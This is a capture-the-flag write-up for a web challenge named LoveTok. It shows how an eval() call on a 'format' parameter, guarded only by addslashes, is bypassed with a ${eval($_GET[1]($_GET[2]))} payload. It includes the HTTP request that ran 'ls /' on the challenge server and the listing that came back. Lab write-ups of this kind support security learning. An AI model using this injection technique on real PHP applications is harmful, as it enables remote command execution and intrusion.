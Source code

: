 > True love is tough, and even harder to find. Once the sun has set, the lights close and the bell has rung... you find yourself licking your wounds and contemplating human existence. You wish to have somebody important in your life to share the experiences that come with it, the good and the bad. This is why we made LoveTok, the brand new service that accurately predicts in the threshold of milliseconds when love will come knockin' (at your door). Come and check it out, but don't try to cheat love because love cheats back. 💛

1. The challenge gave us a website with only one page and it had a parameter `format`.

2. After analyzing the source code, we knew something and where to attack.
   1. The flag's location is defined `entrypoint.sh`.
   2. The `format` was used in `TimeModel`.
   3. The `format` was filtered via `addslashes` that add `/` before the characters `'`, `"`, `\`, and `NULL`.
   4. The `TimeController` called `getTime()` that contains `eval` function on `format` variable, which means we could use it for remote command execution.

```php
public function getTime()
{
    eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));');
    return isset($time) ? $time : 'Something went terribly wrong';
}
```

3. We tried to compose a `format` that could pass through `addslashes` and list filename first: 
   - We cannot use `"` and so we cannot directly use `system("ls /")`. Therefore, we use `$_GET` to create a new variable and it won't be filtered.
   - `"` is disallowed and so we cannot end `date("` by adding `")`. Therefore, we use functions like `echo` or `var_dump` to print the content to the page.
   - Since we will use `$_GET` to pass `"system"` string and thus we need to execute `eval($_GET[0]($_GET[1]))`.
   - To make the inner `eval` execute first, we use `${}` to make it happen.

```php
echo(${eval($_GET[1]($_GET[2]))})
```

4. We can send out the request as follows.

```
GET http://165.232.38.49:30685/?format=echo(${eval($_GET[1]($_GET[2]))})&1=system&2=ls+/ HTTP/1.1

bin
boot
dev
entrypoint.sh
etc
flag8h5ju
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
www
```

